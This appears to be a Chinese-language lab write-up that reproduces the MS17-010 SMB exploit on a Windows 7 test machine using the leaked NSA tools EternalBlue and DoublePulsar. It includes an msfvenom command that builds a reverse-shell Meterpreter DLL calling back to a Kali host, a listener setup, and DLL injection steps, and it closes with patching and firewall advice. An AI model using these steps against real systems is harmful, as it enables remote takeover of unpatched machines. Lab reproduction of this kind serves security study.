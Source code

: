 ```yaml
---
title: NSA Enternalblue + Doublepulsar 复现 SMB 漏洞
date: 2017-04-27 17:18:08
tags: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
categories: Exploit
keywords: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

# 0x01 影响范围
下图中列举了工具中相关模块所影响的服务和系统。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/92526918-file_1493343199647_16966.jpg)

# 0x02 漏洞测试
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

## 1. 测试环境
|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

## 2. 测试流程
### 1）运行 fuzzbunch 框架
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。     
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/95094523-file_1493344655277_8614.png)      

### 2）调用 Eternalblue 攻击系统
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/73280707-file_1493345362094_157db.png)    

### 3）Metasploit 生成恶意 DLL
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

### 4）开启 msf 监听
在 Kali Linux 下，运行 msf，监听 6666 端口。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/80220500-file_1493346556508_101d9.png)    

### 5）调用 Doublepulsar 注入 DLL
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。     
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/56721083-file_1493348716416_6f00.png)

### 6）建立连接
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。    
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/82624178-file_1493348105266_34db.png)

# 0x03 防御措施
1. 尽快升级系统补丁     
2. 开启防火墙，并限制 445 端口     
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```

----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
